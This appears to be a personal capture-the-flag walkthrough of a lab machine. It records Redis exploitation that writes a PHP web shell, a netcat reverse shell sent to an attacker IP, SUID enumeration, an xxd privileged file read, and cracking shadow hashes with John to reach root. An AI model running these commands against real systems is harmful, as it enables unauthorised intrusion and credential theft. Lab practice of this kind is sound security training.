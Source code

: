 thm - 2021_05_02 res (not completed).md 

nmap -sV -sC -o nmap 10.10.85.80


Redis RCE
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce

10.10.102.93:6379> config set dbfilename redis.php
OK
10.10.102.93:6379> set test "<?php phpinfo(); ?>"
OK
10.10.102.93:6379> save

we are able to see the phpinfo with this
time to get a reverse shell

PHP Injection Payload
"<?php system($_GET['cmd']); ?>"



http://10.10.102.93/exploit.php?cmd=nc%20-e%20/bin/sh%2010.8.102.117%201337


Privilege Escalation
We can search for programs with SUID permission using linPEAS.sh 

-rwsr-xr-x 1 root root        44K May  7  2014 /bin/ping6                                                                                                                                                                                  
-rwsr-xr-x 1 root root        44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root        31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root        10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root        53K Mar 26  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root        74K Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root        40K Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root        71K Mar 26  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root        39K Mar 26  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root        40K Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root        27K Jan 27  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root        40K Jan 27  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root       134K Jan 31  2020 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus  42K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-r-sr-xr-x 1 root root        14K Sep  1  2020 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root        14K Sep  1  2020 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper



File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

LFILE=file_to_read
xxd "$LFILE" | xxd -r

Brute Force with John 

unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
john --show unshadow.txt


su - vianka
Password: beautiful1

sudo su 

then get the root.txt

completed 02 may 2021 2104hr
